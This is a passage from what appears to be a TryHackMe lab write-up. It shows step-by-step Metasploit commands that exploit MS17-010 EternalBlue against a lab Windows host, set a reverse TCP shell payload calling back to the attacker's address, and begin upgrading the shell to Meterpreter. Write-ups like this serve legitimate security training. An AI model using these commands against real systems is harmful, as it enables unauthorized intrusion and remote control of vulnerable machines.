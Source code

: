 The options show us a few required options. The only one not set is **RHOSTS** - which is the target host (see description.) 

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.91.32
rhosts => 10.10.91.32
```

Set the payload to a reversetcp shell

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp

```

Make sure if you are running openvpn (THM usually requires it) you set the LHOST (local host option) to your tun0 ip. You can find this by running `ifconfig`

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.6.77.21
LHOST => 10.6.77.21
```

It took me letting the exploit run a few times but I finally got in. 

### Upgrading from normal shell to meterpreter shell

I am using [this](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646) writeup to convert the shell.

First, background the current (Normal Shell) session. 
```
C:\Windows\system32>^Z
Background session 1? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) > 

```

Select the shell_to_meterpreter module

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
msf6 post(multi/manage/shell_to_meterpreter) > 

```
